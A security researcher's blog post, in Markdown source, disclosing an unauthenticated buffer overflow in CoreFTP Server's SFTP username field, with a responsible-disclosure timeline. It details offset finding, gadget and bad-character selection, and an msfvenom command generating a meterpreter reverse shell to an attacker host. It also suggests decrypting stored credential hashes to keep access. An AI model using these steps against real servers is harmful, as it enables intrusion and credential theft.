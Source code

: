 ```yaml
---
layout: post
title:  "Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending"
date:   2020-08-16 01:01:00 +0100
categories: binary reverse exploitation
---
```


# Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending

Well hello there, hope everyone is doing well on this lockdown. As with many people, I start learning some new tricks, and I went old school on this one. Due to the excess time, we had to play with another thing I started looking again for old school exploits such as Buffer Overflows. Well, it didn't take long to find one.

CoreFTP comes in two versions: a client and a Server. Let us focus on the server-side. CoreFTP Server is an FTP Server (shocking) that allows IT administrators not only to serve as FTP but as SFTP with client certificates and integrate with the domain. For the sake of clarity, we tested the Core FTP build 583.

## Starting testing

As with every test, we start by sending some erroneous data to every user input field possible. There were a lot of crashes in the Server Management GUI. For instance, on the self-signed server certificate fields, we could overwrite the EIP pretty quickly, but the problem would be non-ASCII characters, and it would be dumb since you there already have access to the management interface that supposedly operates in Administrative mode since the server needs to bind to lower ports (0-1023).


However, this opens the door to exploit other fields. The server exposes a network port to allow clients to connect and retrieve data. I choose to go with the SFTP (Basically SSH only with file support) with SSH keys enabled. The first idea was to try to send garbage data in the Key-Exchange phase of the protocol, for instance, send an overly long encoded communication to trigger the exploit. However, the clients try to verify if the data is valid before sending. Next, I just tried the simple username with 'A '*huge_amount and the server stopped responding and hanged. Hmmm..

![crashServer]({{ "images/coreftprce/image4.png" | absolute_url}})

I quickly created an environment with the service running on a Windows XP SP3 Build 2600 (because, no protections) and another on a Windows 10 machine. For the sake of clarity, **my victim machine will be at 192.168.155.132**, and the **attackers' machine will be at 192.168.155.176**. I quickly checked the binary and verified that it doesn't have any security extensions; this means no ASLR no DEP, nothing. Thus we don't need to worry about bypassing these technologies. I follow the training in [here](https://www.fuzzysecurity.com/tutorials.html) (and I recommend it). I attached a debugger (ImmunityDBG) to the process and generated an SSH key pair (it doesn't matter as we are going to find out) and use it to connect to the server but with the 'A'*1024 as the username and we get the glorious EIP 41414141. Hurray! We control the EIP and have a primary entry point to try to exploit this!

![debuggerattached]({{ "images/coreftprce/image5.png" | absolute_url}})

## Exploiting it

If you read the tutorial link (and I think you should if it's the first time you reading something like this), you should know that the next step is to determine the offset to rewrite the EIP. You can either do it by trial and error or be intelligent and use something like the pattern generator tool from the Metasploit framework. With that, we can see that the EIP will be overwritten after ``198 bytes``, which means that we need to write 198 bytes before rewriting it.

![monafindoffset]({{ "images/coreftprce/image1.png" | absolute_url}})

After that, find any instruction capable of jumping to our shellcode, such as a ```call ESP```. We can use the [mona script](https://github.com/corelan/mona) to help enumerate all the possibilities to do this. It will search for all compatible instructions in all the code and imported functions. Since the main code contains a NULL byte, we can not choose it, so we need to rely on imported DLLs. Since Windows XP have a lot of them without ALSR, we can pick one that suits us. However, it means that the exploit needs to be ported for other operating systems, service packs, maybe language, etc.

![monajumptoshellcode]({{ "images/coreftprce/image6.png" | absolute_url}})

In the previous image, we can see some of the possible ```JUMP ESP``` instructions, but there are a lot more on them in a text file on your workspace:

![monajumptoshellcode2]({{ "images/coreftprce/image7.png" | absolute_url}})

Next, we should move along and perform a bad chars evaluation. When we send the characters to the buffer, some of them may break the normal functioning of the exploit (due to verifications or operations on them). We can use the mona script to generate an array of all possible values, from 0x00 to 0xFF or from 0 to 255. Sending this buffer and analyzing the memory afterwards gets us the bad chars. Mona script can help compare the chars and the bad chars and provide a direct response on what we should exclude of the payload.

![monadetectbadchars]({{ "images/coreftprce/image8.png" | absolute_url}})

The payload can then be crafted using the Metasploit Venom and passing the bad chars (```\x00 \x01 \x02 \x0a \x0d \x40```) with the '-b' flag. We generate a small payload to get remote code execution:

```msfvenom -a x86 --platform Windows -p windows/meterpreter/revrse_tcp LHOST=192.168.155.176 LPORT=443 -b '\x00\x01\x02\x0a\x0d\x40 -f python --smallest```

In this case, I used a meterpreter payload just because but you can choose whatever you want. I just opened a listener on Metasploit console and ran the following exploit.

![exploitcode]({{ "images/coreftprce/image9.png" | absolute_url}})

Yes, I pasted an image with the code because it could trigger Antivirus Agents since it has a very rudimentary Meterpreter shell in it. The exploit uses the paramiko [paramiko SSH library](http://www.paramiko.org/) to connect to the SSH service and pass the payload as the username. The connection will fail, but at that point, we should get our shell in Metasploit. One small detail, if we use the ```CALL ESP```, the exploit will succeed, and the service will continue to run as intended, at least on this case. Hurray, we got unauthenticated RCE! =). Some additional remarks are in order: Once you get RCE and can access the file system, try to access the configuration file. There you will find several hashes encrypted with AES256, someone did a great reversing job and posted the procedure to decrypt them [here](https://coreysalzano.com/how-to/how-to-extract-passwords-from-core-ftp-le/). You can also look for specific memory locations of the decrypted hashes (I sure did but later found out this, at least I learn something in the process). Then you can use that credential hopefully to maintain access. The application needs to run on Administrator mode, so you just got at least Local Administrative on a machine, congratz!

![exploitcode]({{ "images/coreftprce/image10.png" | absolute_url}})

There are also other versions vulnerable to this, but after version 2.1 of the CoreFTP Server, the buffer started converting to UTF-8, and we need to perform [Venetian method](https://img2.helpnetsecurity.com/dl/articles/unicodebo.pdf) to exploit it. I was not successful in doing that, so the last that we can achieve is Denial of Service (DoS). To do this, we send garbage to the buffer and crash the service. Meh, not that good but could be helpful in some situations. Maybe someone that knows more than what I do can help and exploit this.

There is the problem of portability of the exploit. I did this on a Windows XP SP3 machine (except the detection of security extensions, that I did on the Windows 10 Machine) so I won't be bothered with ASLR and DEP modes. Since the code of the program holds bad chars, such as the NULL byte (0x00) we can't use it to steal an instruction to jump to our shellcode. Otherwise, the exploit would work on all OSs. Therefore we needed to use some of the imported DLLs present to reuse the instruction, and then jump to our shellcode. One interesting thing to work on is to try to craft something that would bypass the authentication, jump the verification of the password and give access to files. Don't know if it is possible but I wonder. Also, this exploit **only works if the SSH key is enabled**. You don't need a user registered with it, but the server should accept it. The problem relies on the most robust configuration (using SSH keys to authenticate users) even if there is none configured.

## Disclosure

This vulnerability follows the responsible disclosure standard. At first, the vendor did not reply but after insisting I got trough to someone who could patch this. After investigation, he provided the patch to clients, and after the patch is available for one month, I released this disclosure. I like to thank them for providing support for fixing this vulnerability. As a footnote, I am still waiting for the CVE ID from Mitre, when that's available, I'll update this page.

## Timeline

* 01/05/2020 - Vulnerability discovery
* 02/06/2020 - First contact with vendor
* 21/06/2020 - Second contact with vendor
* 26/06/2020 - Vulnerability fix tested, patch confirmed
* 27/07/2020 - Official date of release
* 16/08/2020 - Real date of release
* 23/08/2020 - Grammer fixes, thanks to @jpdias =)  


